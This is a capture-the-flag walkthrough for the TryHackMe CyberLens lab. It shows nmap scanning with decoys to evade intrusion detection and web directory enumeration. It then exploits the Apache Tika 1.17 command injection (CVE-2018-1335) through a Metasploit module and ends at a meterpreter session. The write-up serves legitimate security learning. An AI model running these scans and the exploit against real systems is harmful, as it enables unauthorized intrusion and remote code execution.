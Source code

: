 
![intro](https://github.com/user-attachments/assets/341efde7-07e4-4e6d-b9c4-11cd22bd43ab)

# tryhackme-CTF-writeup-for-cyberLens

This is a walkthrough for the tryhackme CTF CyberLens. I will not provide any flags or passwords as this is intended to be used as a guide.

# Challenge Description

![description](https://github.com/user-attachments/assets/5e04f23a-a20b-4455-a22d-55edde6b6ff9)

As per the instructions, let's add the IP to our /etc/hosts file:
```bash
sudo echo '10.10.179.83 cyberlens.thm' >> /etc/hosts
```

Scanning/Reconnaissance
First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:

nmap -A -v $ip -D RND:10 -oN nmap.txt
Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals a few open ports that will prove very useful:

![nmap1](https://github.com/user-attachments/assets/1e85694b-46d2-472b-b25c-96d0bef09555)
![nmap2](https://github.com/user-attachments/assets/f4c98a3f-721a-4082-8536-284be0651ac9)

Let's head to web sever on port 80. There is an upload image function. I'm going to run further scans using ffuf, gobuster and nikto for further enumeration:
```bash
ffuf -u http://$ip/FUZZ -w /usr/share/wordlists/dirb/common.txt
```
gobuster dir -u $ip -w=/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -x php,txt -o buster.txt
```
```bash
nikto -h $ip | tee nikto.txt
```
There are some directories that could prove useful:

![gobuster](https://github.com/user-attachments/assets/cf13212b-f7ce-4698-afdd-28f13257f9fa)

![nikto](https://github.com/user-attachments/assets/40632bb4-ccbc-4c1c-90a7-8752317b2d1d)

In the /js directory there is a js file that contains "fetch("http://localhost:61777/meta":

![extractor js](https://github.com/user-attachments/assets/5077b3c7-30a8-4b63-b402-d138f1e64467)

I ran an nmap scan on port 61777 but it didn't yeild much info.

![nmap61777](https://github.com/user-attachments/assets/c04c9ef6-86e1-4340-8c9a-0ed26484fa04)

I'll go ahead and visit the IP on this port.

We get a Tika 1.17 welcome:

![Tika 1 17](https://github.com/user-attachments/assets/a2d37890-2b70-4e02-b44a-12fa96ff247b)

I did a google search for Tika 1.17 exploit, and checked out this Header Command Injection(Metasploit) exploit. 

![headercommandinjection](https://github.com/user-attachments/assets/39a5d4c3-6ac4-4796-a127-d17c7ce2af2b)

I'm going to open up msfconsole and search for this exploit.

![msf1](https://github.com/user-attachments/assets/3f8fb7e6-7f58-43c6-9ae9-c336b6031038)

Payload information:

Description:
  This module exploits a command injection vulnerability in Apache 
  Tika 1.15 - 1.17 on Windows. A file with the image/jp2 content-type 
  is used to bypass magic bytes checking. When OCR is specified in the 
  request, parameters can be passed to change the parameters passed at 
  command line to allow for arbitrary JScript to execute. A JScript 
  stub is passed to execute arbitrary code. This module was verified 
  against version 1.15 - 1.17 on Windows 2012. While the CVE and 
  finding show more versions vulnerable, during testing it was 
  determined only > 1.14 was exploitable due to jp2 support being 
  added.

References:
  https://www.exploit-db.com/exploits/46540
  https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/
  https://lists.apache.org/thread.html/b3ed4432380af767effd4c6f27665cc7b2686acccbefeb9f55851dca@%3Cdev.tika.apache.org%3E
  https://nvd.nist.gov/vuln/detail/CVE-2018-1335

msf6 exploit(windows/http/apache_tika_jp2_jscript) > set rhosts 10.10.179.83
rhosts => 10.10.179.83
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set rport 61777
rport => 61777
msf6 exploit(windows/http/apache_tika_jp2_jscript) > exploit

meterpreter > 

![meterpreter1](https://github.com/user-attachments/assets/acc264f0-ebee-4d8a-af21-ef4617749a9f)

